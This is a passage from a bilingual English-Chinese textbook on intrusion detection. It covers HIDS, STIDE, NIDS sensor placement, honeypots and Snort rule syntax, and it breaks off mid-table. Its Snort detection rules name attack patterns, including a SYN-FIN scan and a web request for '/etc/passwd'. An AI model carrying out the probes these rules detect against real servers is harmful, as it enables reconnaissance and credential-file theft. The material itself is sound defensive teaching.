Q1. (Choose) Name the better-suited approach (anomaly or signature/heuristic) and justify it: (a) a worm that always sends the same 400-byte payload; (b) a brand-new exploit with no published pattern; (c) an account that suddenly opens hundreds of files outside working hours; (d) a known malicious file on a laptop.Q1.（选择）指出更合适的方法（异常检测或特征/启发式检测）并说明理由：（a）一种总是发送相同 400 字节载荷的蠕虫；（b）一个尚无公开模式的全新漏洞利用；（c）某账户在非工作时间突然打开数百个文件；（d）笔记本电脑上的一个已知恶意文件。
Answer
(a) Signature: the fixed pattern matches exactly, cheaply and with few false alarms. (b) Anomaly: no signature exists, so only a deviation from normal behaviour (unusual system call sequence or traffic) can reveal it. (c) Anomaly: the user's statistical profile (files accessed, time of day) is violated. (d) Signature: a file signature match, as in anti-virus.（a）特征：固定模式可以精确、低成本地匹配，且误报少。（b）异常检测：不存在对应的特征，因此只有偏离正常行为的现象（异常的系统调用序列或流量）才能将其揭示。（c）异常检测：用户的统计画像（访问的文件、访问时间）被打破。（d）特征：文件特征匹配，正如杀毒软件所做的那样。
Q2. (Explain) Why are anomaly detectors usually trained on legitimate data only, and what follows?Q2.（解释）为什么异常检测器通常只用合法数据训练？由此会产生什么结果？
Answer
The aim is to detect future, unknown attacks, so representative anomalous examples do not exist. The model therefore describes only "normal": anything it has not seen, including rare legitimate behaviour, looks suspicious, so false alarms are high, and techniques that need labelled attack data are limited.其目的是检测未来的未知攻击，因此不存在具有代表性的异常样本。于是模型只描述“正常”：凡是它没见过的东西，包括罕见的合法行为，都会显得可疑，因此误报率很高，而需要带标签攻击数据的技术也受到限制。
Host-Based Intrusion Detection ★★基于主机的入侵检测
Goal. Name the data sources of a HIDS with their strengths and weaknesses, trace a STIDE mismatch ratio, and describe the distributed HIDS design.目标。 说出 HIDS 的数据源及其优缺点，跟踪一次 STIDE 不匹配率的计算，并描述分布式 HIDS 的设计。
A host-based IDS（HIDS）adds a security layer to a vulnerable or sensitive host, for example a database server. It detects intrusions, logs suspicious events and sends alerts. Unlike a NIDS or a firewall it sees both external and internal intrusions. A sensor collects data from the source, filters out the unwanted part, converts it to a standard format and forwards it to the analyzer.基于主机的 IDS（HIDS）为脆弱或敏感的主机（例如数据库服务器）增加一层安全防护。它检测入侵，记录可疑事件，并发出警报。与 NIDS 或防火墙不同，它既能发现外部入侵，也能发现内部入侵。传感器从数据源收集数据，过滤掉不需要的部分，把数据转换为标准格式，然后转发给分析器。
Step 1: data sources第 1 步：数据源
| Source数据源 | Notes说明 |
|---|---|
| System call traces系统调用轨迹 | Preferred source. Work well on Unix/Linux; problematic on Windows, where DLLs hide which process makes which call首选数据源。在 Unix/Linux 上效果良好；在 Windows 上存在问题，因为 DLL 会掩盖究竟是哪个进程发出了哪次调用 |
| Audit (log file) records审计（日志文件）记录 | No extra collection software, but may lack the needed detail, and intruders may manipulate them无需额外的采集软件，但可能缺乏所需细节，而且入侵者可能篡改它们 |
| File integrity checksums文件完整性校验和 | Periodically compare cryptographic checksums of critical files with known-good values (Tripwire); very sensitive to any change, but blind to running processes; needs a trusted baseline and a protected database; hard where files change legitimately定期将关键文件的密码学校验和与已知正常值进行比较（Tripwire）；对任何变化都非常敏感，但无法感知正在运行的进程；需要可信的基线和受保护的数据库；在文件合法变化的场合难以应用 |
| Registry access注册表访问 | Windows-specific; limited successWindows 专用；成效有限 |
Example of file integrity checking: Tripwire stores the checksum of /bin/login. A replaced program has another checksum, so the next comparison raises an alarm.文件完整性检查的例子：Tripwire 存储 /bin/login 的校验和。被替换的程序校验和不同，因此下一次比较时就会发出警报。
Step 2: anomaly and signature HIDS第 2 步：异常型与特征型 HIDS
In words: an anomaly HIDS compares the sequence of system calls of a program with what it did in training.用文字表述：异常型 HIDS 把程序的系统调用序列与它在训练时的行为进行比较。
Forrest's STIDE（Sequence Time-Delay Embedding）slides a window of fixed length over the system call trace. It checks each window against the windows seen in training.Forrest 提出的 STIDE（Sequence Time-Delay Embedding，序列时间延迟嵌入）在系统调用跟踪上滑动一个固定长度的窗口。它把每个窗口与训练时见过的窗口进行比较。
In words: mismatch ratio = windows never seen in training ÷ all windows of the observed trace. A high ratio signals an anomaly.用文字表述：不匹配率 = 训练中从未见过的窗口 ÷ 观察轨迹的全部窗口。比率高就说明存在异常。
Training trace: open read write read write close. With windows of 3 calls, the known windows are (open, read, write), (read, write, read), (write, read, write) and (read, write, close). The observed trace open read exec write read write close has five windows. Three contain exec and are unknown. The last two are known. Mismatch ratio = 3 ÷ 5 = 0.6.训练轨迹：open read write read write close。窗口长度为 3 个调用时，已知窗口为 (open, read, write)、(read, write, read)、(write, read, write) 和 (read, write, close)。观察轨迹 open read exec write read write close 共有五个窗口。其中三个包含 exec，属于未知窗口。最后两个是已知的。不匹配率 = 3 ÷ 5 = 0.6。
A signature HIDS is the anti-virus family: a database of file signatures or heuristic rules. It is efficient on known malware and the more widely deployed class, because anomaly HIDSs need costly training and give many false alarms. It misses zero-day attacks.特征型 HIDS 属于杀毒软件这一类：一个文件特征或启发式规则的数据库。它对已知恶意软件很有效，而且它是部署更广泛的一类，因为异常型 HIDS 需要代价高昂的训练，并且误报很多。它会漏掉零日攻击。
Step 3: distributed HIDS第 3 步：分布式 HIDS
Coordinated IDSs defend a network of hosts better than stand-alone ones. The design has three components.协同工作的 IDS 比单机运行的 IDS 更能保护一个主机网络。这种设计包括三个组件。
- The host agent module collects audit data in the background on each host.主机代理模块在每台主机上后台收集审计数据。
- The LAN monitor agent module analyzes LAN traffic.LAN 监视代理模块分析局域网流量。
- The central manager module receives and correlates the reports with an expert system and can ask agents for records.中央管理器模块接收报告，用专家系统对其进行关联分析，并可以向代理索取记录。
Design issues are the different data formats of the sensors, the integrity and confidentiality of the transmitted data, and the architecture. A centralized architecture is easy to correlate but is a bottleneck and a single point of failure. A decentralized one needs several analysis centres that coordinate.设计问题包括：传感器的数据格式各不相同，传输数据的完整性和机密性，以及体系结构。集中式体系结构便于关联分析，但会形成瓶颈，并且是单点故障。去中心化体系结构需要多个分析中心相互协调。
Practice练习
Q1. (Trace) A STIDE-style detector uses windows of 3 system calls. Training trace: open read write read write close. Observed trace: open read exec write read write close. Compute the mismatch ratio; is it anomalous if the threshold is 0.2?Q1.（手工演算）一个 STIDE 式检测器使用长度为 3 的系统调用窗口。训练轨迹：open read write read write close。观测轨迹：open read exec write read write close。计算失配率；若阈值为 0.2，它是否异常？
Answer
Training windows: (open, read, write), (read, write, read), (write, read, write), (read, write, close). Observed windows (5): (open, read, exec) no, (read, exec, write) no, (exec, write, read) no, (write, read, write) yes, (read, write, close) yes. Mismatch ratio \(=3/5=0.6>0.2\), so the trace is anomalous: the inserted exec creates three unseen windows.训练窗口：(open, read, write)、(read, write, read)、(write, read, write)、(read, write, close)。观测窗口（共 5 个）：(open, read, exec) 否，(read, exec, write) 否，(exec, write, read) 否，(write, read, write) 是，(read, write, close) 是。失配率为 \(=3/5=0.6>0.2\)，因此该轨迹异常：插入的 exec 产生了三个未出现在训练中的窗口。
Q2. (Discuss) What are the advantages and disadvantages of a file integrity checker such as Tripwire, and what makes its configuration hard?Q2.（讨论）Tripwire 之类的文件完整性检查器有哪些优点和缺点？是什么使其配置变得困难？
Answer
Advantages: very sensitive to any change in binaries, scripts and configuration files, even a replaced system program; cryptographic checksums make tampering evident; available on all major systems. Disadvantages: it needs a known-good baseline and a protected checksum database, cannot detect changes to running processes, and detects only after the change. Configuration is hard because the administrator must classify every file: never changes (binaries), changes in defined ways (logs, append only), or changes constantly (cannot be checked). A surprising number of files change, so setup and reading the alerts cost much effort, and every legitimate update triggers alarms.优点：对二进制文件、脚本和配置文件的任何变化都非常敏感，甚至能发现被替换的系统程序；密码学校验和使篡改一目了然；适用于所有主流系统。缺点：需要已知正常的基线和受保护的校验和数据库，无法检测正在运行的进程的变化，并且只能在变化发生之后才能检测到。配置困难，因为管理员必须对每个文件进行分类：从不变化（二进制文件）、以确定方式变化（日志，仅追加），或持续变化（无法检查）。令人意外的是，发生变化的文件数量很多，因此设置和阅读告警都需要大量精力，而且每次合法更新都会触发告警。
Network-Based and Distributed Intrusion Detection ★★★基于网络的入侵检测与分布式入侵检测
Goal. Compare HIDS and NIDS, explain inline and passive sensors, choose a sensor location for a stated goal, and explain why a hybrid IDS with many sensors lowers false alarms.目标。 比较 HIDS 与 NIDS，解释内联和被动传感器，针对给定目标选择传感器位置，并解释为什么带有大量传感器的混合式 IDS 能降低误报。
Step 1: what a NIDS sees第 1 步：NIDS 看到什么
In words: a NIDS reads the packets that pass one point of the network, so one sensor watches many hosts.用文字表述：NIDS 读取网络中某一点经过的数据包，因此一个传感器就能监视许多主机。
A network-based IDS (NIDS) examines traffic packet by packet, in real time or nearly, at selected points of a network. It works at network, transport and application level. It normally sits at the perimeter with the firewall and watches mainly for external attempts. Encryption hides the payload from it (Chapter 19), so it is only part of the solution.基于网络的 IDS（NIDS）在网络的选定位置上近实时地逐个检查数据包。它工作在网络层、传输层和应用层。它通常位于边界，与防火墙并列，主要监视来自外部的攻击企图。加密会隐藏载荷（第 19 章），因此它只能解决问题的一部分。
| HIDS | NIDS | |
|---|---|---|
| Data数据 | System calls, logs, file checksums系统调用、日志、文件校验和 | Packets at network, transport and application layers网络层、传输层和应用层的数据包 |
| Strength优势 | Sees internal and external intrusions and process detail能看到内部与外部入侵，以及进程细节 | One sensor covers many hosts; no load on hosts一个传感器即可覆盖众多主机；不占用主机资源 |
| Weakness缺点 | Covers one host; uses host resources只覆盖一台主机；占用主机资源 | Blind to encrypted payloads and to activity inside a host无法看到加密的有效载荷，也看不到主机内部的活动 |
Step 2: inline and passive sensors第 2 步：内联与被动传感器
| Inline sensor（串联传感器） | Passive sensor（被动传感器） | |
|---|---|---|
| Position位置 | In the traffic path: stand-alone, or inside a firewall or LAN switch位于流量路径上：独立部署，或置于防火墙或局域网交换机内部 | Off the path: reads a copy of the traffic taken by a tap位于路径之外：读取由分路器获取的流量副本 |
| Effect效果 | Can block an attack, so it prevents as well as detects可以阻断攻击，因此既能防御又能检测 | Only detects只能检测 |
| Cost成本 | Adds delay会增加延迟 | Adds no handling step不增加额外的处理步骤 |
| Use用途 | Less common较少见 | More common较常见 |
The monitoring NIC (network interface card) of a passive sensor usually has no IP address and takes no part in any protocol. It only listens, so the monitored network cannot address or attack it. A second NIC with an IP address reports to the management server.被动传感器的监视网卡（NIC）通常没有 IP 地址，也不参与任何协议。它只负责监听，因此被监视的网络无法寻址或攻击它。另有一块带 IP 地址的网卡负责向管理服务器报告。
network medium --tap--> NIC 1 (no IP, listen only) --> sensor --> NIC 2 (IP address) --> NIDS management server
Only wireless sensors (inline in an access point, or passive monitors) see wireless protocol traffic. A NIDS for wireless only is a WIDS.只有无线传感器（嵌入接入点的内联传感器，或被动监视器）才能看到无线协议的流量。只针对无线网络的 NIDS 称为 WIDS。
Step 3: where to put the sensors第 3 步：传感器应放在哪里
In words: the closer the sensor is to the Internet, the more it sees and the heavier its load; the closer to the valuable assets, the more focused it is.用文字表述：传感器越靠近互联网，它看到的越多，负载也越重；越靠近有价值的资产，它的监视就越有针对性。

| Location位置 | Benefits and limits优点与局限 |
|---|---|
| 1 Just inside the external firewall1 外部防火墙之内 | Sees attacks that got past the firewall, so exposes firewall problems; sees attacks on Web and FTP servers and traffic from a compromised server能看到穿过防火墙的攻击，因此能暴露防火墙的问题；能看到针对 Web 和 FTP 服务器的攻击，以及来自已被攻陷服务器的流量 |
| 2 Between firewall and Internet2 防火墙与因特网之间 | Sees all unfiltered traffic and documents the number and types of Internet attacks; highest processing burden能看到全部未经过滤的流量，并记录因特网攻击的数量和类型；处理负担最重 |
| 3 Internal backbone (servers, databases)3 内部骨干网（服务器、数据库） | Sees much traffic, internal and external attacks; tunable to specific protocols and attacks, lowering the load能看到大量流量，包括内部和外部攻击；可针对特定协议和攻击进行调优，从而降低负载 |
| 4 Critical department network (personnel, finance)4 关键部门网络（人事、财务） | Focuses limited resources on the most valuable assets; tunable将有限的资源集中于最有价值的资产；可调优 |
Example: the finance network holds the most valuable data. A sensor at location 4 watches only that traffic and can be tuned to a few protocols, so the load stays low.例：财务网络保存着最有价值的数据。位于位置 4 的传感器只监视这部分流量，并且可以只针对少数几种协议进行调整，因此负载保持在较低水平。
Step 4: what each technique detects第 4 步：各种技术能检测什么
A NIDS uses signature and anomaly detection. Signature detection suits attacks with a known pattern:NIDS 同时使用特征检测和异常检测。特征检测适用于有已知模式的攻击：
- application-layer attacks: buffer overflow, password guessing, malware transfer;应用层攻击：缓冲区溢出、口令猜测、恶意软件传输；
- transport-layer attacks: unusual fragmentation, port scans, SYN floods;传输层攻击：异常分片、端口扫描、SYN 洪泛；
- network-layer attacks: spoofed addresses, illegal header values;网络层攻击：伪造地址、非法的首部取值；
- unexpected services and policy violations.意外的服务和违反策略的行为。
Anomaly detection suits attacks that change the volume or pattern of traffic:异常检测适用于改变流量规模或模式的攻击：
- denial of service: a traffic surge (Chapter 23);拒绝服务：流量激增（第 23 章）；
- scanning: banner grabbing, port and ICMP scans;扫描：横幅抓取、端口扫描和 ICMP 扫描；
- worms: heavy bandwidth, hosts that normally do not talk, unusual ports (Chapter 18).蠕虫：带宽占用大、通常不通信的主机之间开始通信、使用异常端口（第 18 章）。
Stateful protocol analysis (SPA)（有状态协议分析）is anomaly detection against universal profiles of benign protocol behaviour, supplied by the vendor. It tracks protocol states and needs no training on the organization. It uses many resources.有状态协议分析（SPA）是一种异常检测，它依据供应商提供的良性协议行为的通用轮廓进行检测。它跟踪协议状态，不需要针对具体组织进行训练，但它需要大量资源。
Step 5: distributed or hybrid IDS第 5 步：分布式或混合式 IDS
Isolated IDSs miss new threats and are slow to update. A hybrid IDS（混合式入侵检测）combines host and network sensors. In the cooperative scheme a node that suspects an attack tells its peers its suspicion as a probability, with a peer-to-peer gossip protocol. When enough messages push the suspicion over a threshold, the node responds and alerts the central system.孤立的 IDS 会漏掉新的威胁，而且更新缓慢。混合式 IDS结合了主机传感器和网络传感器。在协作方案中，怀疑存在攻击的节点通过点对点的 gossip 协议把它的怀疑程度（以概率表示）告诉其他节点。当足够多的消息把怀疑程度推过阈值时，该节点就会做出响应，并向中央系统发出警报。
Many sensors that see the same evidence give an alert with a low false-positive risk, without a long wait. This replaces waiting by agreement among many sensors. It assumes that the errors of the sensors are independent.多个传感器看到相同的证据时，就能在不长时间等待的情况下发出误报风险低的警报。这取代了通过多个传感器达成一致意见所需的等待。它假设各传感器的误差是相互独立的。
Practice练习
Q1. (Placement) Choose the NIDS location (1 inside the external firewall, 2 between firewall and Internet, 3 internal backbone, 4 critical department network) for each goal: (a) count and classify all attacks launched from the Internet; (b) discover that the firewall policy lets illegal traffic through; (c) protect the finance network with a lightly loaded, tuned sensor; (d) detect an employee attacking an internal database server.Q1.（部署位置）为每个目标选择 NIDS 的位置（1 外部防火墙之内，2 防火墙与因特网之间，3 内部骨干网，4 关键部门网络）：（a）统计并分类所有从因特网发起的攻击；（b）发现防火墙策略放行了非法流量；（c）用负载较轻、经过调优的传感器保护财务网络；（d）检测员工对内部数据库服务器的攻击。
Answer
(a) Location 2: it sees unfiltered traffic (and carries the highest load). (b) Location 1: it sees what passes the firewall. (c) Location 4: tuned to specific protocols and attacks, protecting critical assets. (d) Location 3: the backbone sensor sees internal traffic and unauthorized activity by authorized users.（a）位置 2：它能看到未经过滤的流量（且负载最高）。（b）位置 1：它能看到通过防火墙的流量。（c）位置 4：针对特定协议和攻击进行调优，保护关键资产。（d）位置 3：骨干网传感器能看到内部流量，以及授权用户的未授权活动。
Q2. (Beyond the text) Five independent sensors each have DR = 0.9 and FAR = 0.01. A hybrid IDS alerts only if at least 3 of the 5 agree. Find the combined DR and FAR, and the fraction of alerts that are real at \(p=10^{-3}\), compared with one sensor.Q2.（超出正文）五个独立传感器各自的 DR = 0.9，FAR = 0.01。混合式 IDS 仅当其中至少 3 个传感器一致时才发出告警。求组合后的 DR 与 FAR，以及在 \(p=10^{-3}\) 时告警中真告警所占的比例，并与单个传感器进行比较。
Answer
Voting is binomial. Intrusion: \(P(X\ge3)=\binom53 0.9^3 0.1^2+\binom54 0.9^4\,0.1+0.9^5=0.0729+0.32805+0.59049=0.99144\). Normal events: \(10\cdot0.01^3\cdot0.99^2+5\cdot0.01^4\cdot0.99+0.01^5\approx9.85\times10^{-6}\). So DR rises to 0.991 while FAR falls about 1,000-fold. Real alerts at \(p=10^{-3}\): one sensor \(0.0009/(0.0009+0.00999)\approx8.3\%\); voting \(0.99144\cdot10^{-3}/(0.99144\cdot10^{-3}+9.85\cdot10^{-6}\cdot0.999)\approx99.0\%\). This is the idea behind gossip with a threshold: agreement among many sensors replaces waiting. It assumes independent errors; correlated sensors gain less.投票服从二项分布。入侵事件：\(P(X\ge3)=\binom53 0.9^3 0.1^2+\binom54 0.9^4\,0.1+0.9^5=0.0729+0.32805+0.59049=0.99144\)。正常事件：\(10\cdot0.01^3\cdot0.99^2+5\cdot0.01^4\cdot0.99+0.01^5\approx9.85\times10^{-6}\)。因此 DR 升至 0.991，而 FAR 约下降 1,000 倍。在 \(p=10^{-3}\) 时的真告警比例：单个传感器为 \(0.0009/(0.0009+0.00999)\approx8.3\%\)；投票为 \(0.99144\cdot10^{-3}/(0.99144\cdot10^{-3}+9.85\cdot10^{-6}\cdot0.999)\approx99.0\%\)。这正是带阈值的 gossip 背后的思想：多个传感器达成一致可以替代等待。该方法假定误差相互独立；若传感器相关，则收益较小。
思路：把“多个传感器一致”当二项分布，同时压低误报、抬高检测率。
Honeypots and Honeynets ★★★蜜罐与蜜网
Goal. Define honeypot and honeynet, state their goals, compare low- and high-interaction honeypots, and evaluate the three locations.目标。 定义蜜罐和蜜网，说明它们的目标，比较低交互与高交互蜜罐，并评估三种位置。
In words: a honeypot = a decoy computer that nobody has a reason to use, so everybody who touches it is suspect.用文字表述：蜜罐 = 一台没有人有理由去使用的诱饵计算机，因此任何接触它的人都是可疑的。
A honeypot（蜜罐）is a decoy system that lures an attacker away from critical systems. It holds fabricated, apparently valuable information that no legitimate user would access. It is instrumented with monitors and event loggers. It has three goals.蜜罐是一种诱饵系统，用来把攻击者引开，使其远离关键系统。它保存着捏造的、看似有价值的信息，合法用户不会去访问这些信息。它装有监控器和事件日志记录器。蜜罐有三个目标。
- Divert attackers from critical systems.把攻击者从关键系统引开。
- Collect information about their activity.收集他们活动的信息。
- Keep them engaged until administrators can respond.让他们保持投入，直到管理员能够做出响应。
A honeypot has no production value. So inbound contact is most likely a probe, scan or attack. Outbound communication started by the honeypot means that it has probably been compromised.蜜罐没有生产价值，因此来自外部的连接很可能是探测、扫描或攻击。由蜜罐自己发起的出站通信则说明它很可能已经被攻破。
Step 1: low versus high interaction第 1 步：低交互与高交互
| Low-interaction低交互 | High-interaction高交互 | |
|---|---|---|
| What是什么 | Software that emulates services or systems well enough for a realistic first interaction, without running the real thing以软件方式模拟服务或系统，足以支持逼真的初次交互，但并不运行真实的系统 | A real system with full OS, services and applications, instrumented and exposed一台真实的系统，具有完整的操作系统、服务和应用程序，并配有监测设施且对外暴露 |
| Reveals可揭示 | Early attack stages (scans, initial access); enough as a warning component of a distributed IDS早期攻击阶段（扫描、初始访问）；足以作为分布式 IDS 的预警组件 | Whole intrusions; holds the attacker for long完整的入侵过程；能长时间留住攻击者 |
| Cost and risk成本与风险 | Cheap, low risk成本低，风险低 | Many resources; if compromised, can attack other systems (legal and reputational issues)需要大量资源；一旦被攻陷，可能用于攻击其他系统（涉及法律和声誉问题） |
A honeynet（蜜网）extends one decoy machine to a decoy network that emulates an enterprise, with real or simulated traffic and data. Honeyfiles（诱饵文件）are bait documents with enticing names that legitimate users never open. Any access to them is suspicious.蜜网把一台诱饵机器扩展为一个模拟企业的诱饵网络，其中包含真实或模拟的流量和数据。诱饵文件是名字很诱人的诱饵文档，合法用户从不打开它们。任何对它们的访问都是可疑的。
Step 2: where to place a honeypot第 2 步：蜜罐放在哪里
| Honeypot location蜜罐位置 | Advantages优点 | Disadvantages缺点 |
|---|---|---|
| 1 Outside the external firewall1 外部防火墙之外 | Tracks attempts on unused addresses; adds no risk to the internal network; absorbs attacks, so firewall and IDS raise fewer alerts追踪对未使用地址的尝试；不给内部网络带来风险；吸收攻击，因此防火墙和 IDS 发出的告警更少 | Cannot trap internal attackers无法捕获内部攻击者 |
| 2 In the DMZ2 位于 DMZ 中 | Sits with the public services与公共服务并置 | Other DMZ hosts must be protected from it; the firewall must open extra traffic or limit the honeypotDMZ 中的其他主机必须防范它；防火墙必须放行额外的流量，或对蜜罐加以限制 |
| 3 Fully internal3 完全位于内部 | Catches internal attackers; reveals a firewall that forwards illegal traffic能捕获内部攻击者；能暴露转发非法流量的防火墙 | If compromised, attacks internal systems, and the firewall does not block traffic to it; complicates firewall rules一旦被攻陷，会攻击内部系统，因为防火墙不阻断发往它的流量；并使防火墙规则更为复杂 |
Example: an attacker scans the unused addresses of a company. A honeypot outside the external firewall answers, and the attack is logged. The internal network is not involved. An employee who attacks an internal server is seen only by an internal honeypot.例：攻击者扫描一家公司未使用的地址。外部防火墙之外的一个蜜罐会应答，攻击被记录下来。内部网络不受影响。员工攻击内部服务器时，只有内部蜜罐才能看到。
Practice练习
Q1. (Compare) Compare low- and high-interaction honeypots on realism, resources and risk, and say which suits a warning component of a distributed IDS.Q1.（比较）从逼真度、资源和风险三方面比较低交互与高交互蜜罐，并指出哪一种适合作为分布式 IDS 的预警组件。
Answer
Low-interaction: emulates services in software, less realistic, cheap, low risk, shows early attack steps such as scans; enough for early warning in a distributed IDS. High-interaction: a real instrumented system, realistic, holds the attacker long and shows later steps, but needs many resources and, if compromised, can be used against other systems (legal and reputational risk).低交互：以软件模拟服务，逼真度较低，成本低，风险低，能显示扫描等早期攻击步骤；足以作为分布式 IDS 的预警组件。高交互：真实的、带有监测设施的系统，逼真度高，能长时间留住攻击者，并显示后期攻击步骤；但需要大量资源，且一旦被攻陷，可能被用来攻击其他系统（存在法律与声誉风险）。
Q2. (Short answer) (a) Which location can trap internal attackers? (b) Why does an external honeypot not endanger the internal network, and what side benefit does it have? (c) A honeypot starts opening connections to many internal hosts. What do you conclude?Q2.（简答）（a）哪个位置能够捕获内部攻击者？（b）外部蜜罐为何不会危及内部网络？它还有什么附带益处？（c）某蜜罐开始向众多内部主机发起连接。你能得出什么结论？
Answer
(a) The fully internal honeypot (location 3). (b) It sits outside the external firewall, so a compromised honeypot has no foothold inside; the attacks it attracts also reduce the alerts of the firewall and internal sensors. (c) A honeypot has no legitimate reason to initiate communication, so it has probably been compromised: isolate it and analyse the attacker's activity.（a）完全位于内部的蜜罐（位置 3）。（b）它位于外部防火墙之外，因此即使蜜罐被攻陷，攻击者也无法在内部立足；它所吸引的攻击还能减少防火墙和内部传感器的告警。（c）蜜罐没有任何正当理由主动发起通信，因此它很可能已被攻陷：应将其隔离，并分析攻击者的活动。
Snort: Architecture and Rules ★★★Snort：体系结构与规则
Goal. Name the four components and two modes of Snort. Read a rule field by field, and write a rule for a stated goal.目标。 说出 Snort 的四个组件和两种模式。逐字段读懂一条规则，并为给定目标编写一条规则。
Snort（开源入侵检测系统）is an open-source, highly configurable and portable host- or network-based IDS. It is lightweight: easy to deploy, small in memory and processor use, and quick to configure. It does real-time packet capture, protocol analysis and content matching, mainly for TCP, UDP and ICMP. The administrator writes the rules.Snort 是一种开源、可高度配置、可移植的基于主机或网络的 IDS。它很轻量：易于部署，占用的内存和处理器资源少，配置也很快。它支持实时数据包捕获、协议分析和内容匹配，主要针对 TCP、UDP 和 ICMP。管理员负责编写规则。
Step 1: architecture第 1 步：体系结构
In words: Snort = decode the packet, check it against the rules, write down what matched, and tell somebody.用文字表述：Snort = 解码数据包，对照规则进行检查，记录匹配的内容，并通知相关人员。

- The packet decoder（数据包解码器）identifies and isolates the protocol headers of each packet.数据包解码器识别每个数据包的协议首部，并将其分离出来。
- The detection engine（检测引擎）checks each packet against the rules. The first rule that matches triggers its action. A packet that matches no rule is discarded by the engine: nothing is logged and no alert is raised.检测引擎把每个数据包和规则逐条比对。第一条匹配的规则触发它的动作。不匹配任何规则的数据包被引擎丢弃：既不记录，也不告警。
- The logger stores matching packets in readable or compact binary form.记录器以可读或紧凑的二进制形式保存匹配的包。
- The alerter sends the event notification to a file, a UNIX socket or a management machine.告警器把事件通知发送到文件、UNIX 套接字或管理主机。
Snort runs in one of two modes. As a passive sensor it is off the traffic path and sees a copy. As an inline sensor all traffic passes through it, so it can also prevent intrusions.Snort 有两种运行模式。作为被动传感器时，它不在流量路径上，只看到流量的一份副本。作为内联传感器时，所有流量都经过它，因此它还能阻止入侵。
Step 2: the structure of a rule第 2 步：规则的结构
In words: a rule = a header that says which packets to look at, plus options in parentheses that say what must be inside.用文字表述：规则 = 说明要检查哪些包的首部，加上括号中说明包内必须包含什么的选项。
A rule is a fixed header followed by zero or more options in parentheses. Each option ends with a semicolon. A keyword is separated from its arguments by a colon.规则由一个固定的首部和零个或多个括号内的选项组成。每个选项以分号结尾。关键字与其参数之间用冒号分隔。
action protocol src-IP src-port direction dst-IP dst-port (keyword:arguments; keyword:arguments; ...)
| Header field首部字段 | Values取值 |
|---|---|
| Action动作 | alert, log, pass, activate, dynamic, drop, reject, sdrop |
| Protocol协议 | tcp, udp, icmp, ip |
| Addresses地址 | One address or CIDR block such as 192.168.1.0/24, any, a list, or a negation with ! (every address except those listed)单个地址或 CIDR 块，例如 192.168.1.0/24、any，也可以是列表，或以 ! 表示取反（即除所列地址以外的所有地址） |
| Ports端口 | One port, any, a range such as 1:1023, or a negation单个端口 any、端口范围（如 1:1023），或取反 |
| Direction方向 | -> one way (source to destination); <> both ways-> 为单向（从源到目的）；<> 为双向 |
The action tells Snort what to do after a match.动作告诉 Snort 匹配之后要做什么。
| Action动作 | Effect效果 |
|---|---|
alert |
Alert, then log the packet告警，然后记录数据包 |
log |
Log the packet记录数据包 |
pass |
Ignore the packet忽略数据包 |
activate, dynamic |
activate alerts and switches on a dynamic rule, which stays idle until then and acts as logactivate 告警，并启用一条 dynamic 规则；该规则在此之前处于闲置状态，并充当 log |
drop |
Drop and log (inline only)丢弃并记录（仅限串联模式） |
reject |
Drop and log, then send TCP reset or ICMP port unreachable (inline only)丢弃并记录，然后发送 TCP 复位或 ICMP 端口不可达（仅限串联模式） |
sdrop |
Drop silently (inline only)静默丢弃（仅限串联模式） |
The options fall in four categories.选项分为四类。
| Option category选项类别 | Role作用 | Examples示例 |
|---|---|---|
| Meta-data元数据 | Describe the rule; no effect on detection描述规则；对检测没有影响 | msg (event text), reference (external attack database), classtype (attack type); real rules also carry sid and rev (rule ID and revision)msg（事件文本）、reference（外部攻击数据库）、classtype（攻击类型）；实际规则还带有 sid 与 rev（规则编号与修订版本） |
| Payload载荷 | Search the payload搜索有效载荷 | content (case-sensitive text or binary), nocase, offset (where to start), depth (how far to search); the last three modify the preceding contentcontent（区分大小写的文本或二进制）、nocase、offset（从何处开始）、depth（搜索范围）；后三者修饰前面的 content |
| Non-payload非有效载荷 | Test header and other fields检测首部及其他字段 | ttl (traceroute), id (IP ID, e.g. 31337), dsize (payload size, buffer overflows), flags (TCP flags), seq, icmp-id, flow (to_server,established: client-to-server packets of established connections)ttl（traceroute）、id（IP ID，例如 31337）、dsize（有效载荷大小，用于缓冲区溢出）、flags（TCP 标志）、seq、icmp-id、flow（to_server,established：已建立连接中由客户端发往服务器的数据包） |
| Post-detection检测后 | Act after a match匹配后执行的动作 | logto (log to a file), session (extract user data from TCP sessions)logto（记录到文件）、session（从 TCP 会话中提取用户数据） |
Step 3: three complete rules, field by field第 3 步：三条完整规则，逐字段说明
Rule A: the SYN-FIN scan.规则 A：SYN-FIN 扫描。
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"SCAN SYN FIN"; flags:SF,12; reference:arachnids,198; classtype:attempted-recon;)
| Part组成部分 | Meaning含义 |
|---|---|
alert |
Action: raise an alert and log the packet动作：发出告警并记录该包 |
tcp |
Protocol: only TCP packets协议：仅 TCP 包 |
| First address and port第一个地址和端口 | Source: the predefined variable for the external network, any port源：外部网络的预定义变量，任意端口 |
| The arrow箭头 | Direction: from source to destination only方向：仅从源到目的 |
| Second address and port第二个地址和端口 | Destination: the predefined variable for the home network, any port目的：内部网络的预定义变量，任意端口 |
msg |
Text of the alert告警文本 |
flags:SF,12 |
Exactly SYN and FIN are set; reserved bits 1 and 2 are ignored恰好设置了 SYN 和 FIN；保留位 1 和 2 被忽略 |
reference |
Link to an external description of the attack指向攻击外部说明的链接 |
classtype |
Attack type: attempted reconnaissance攻击类型：尝试侦察 |
A packet with SYN and FIN both set is never legitimate. SYN opens a connection and FIN closes it. Scanners send such packets to probe hosts or to slip past filters that look only for a plain SYN.同时设置 SYN 和 FIN 的包从来都不是合法的。SYN 用于打开连接，FIN 用于关闭连接。扫描器发送这样的包来探测主机，或者躲过只检查普通 SYN 的过滤器。
Rule B: negation and hex content. The rule alerts on packets to port 111 of the internal network, from any address outside it, that contain the given bytes.规则 B：取反与十六进制内容。 该规则针对发往内部网络 111 端口、来自其外部任意地址、且包含给定字节的包发出告警。
alert tcp !192.168.1.0/24 any -> 192.168.1.0/24 111 (content:"|00 01 86 a5|"; msg:"external mountd access";)
The exclamation mark negates the address block. The bytes between the pipes are hexadecimal. There is no option other than content and msg.感叹号对地址块取反。竖线之间的字节是十六进制的。除 content 和 msg 外，没有其他选项。
Rule C: a Web attack. The rule alerts when a client asks a Web server for the password file.规则 C：Web 攻击。 当客户端向 Web 服务器请求口令文件时，该规则发出告警。
alert tcp $EXTERNAL_NET any -> $HOME_NET 80 (msg:"WEB-ATTACK /etc/passwd"; flow:to_server,established; content:"/etc/passwd"; nocase; classtype:web-application-attack; sid:1000001; rev:1;)
| Part组成部分 | Meaning含义 |
|---|---|
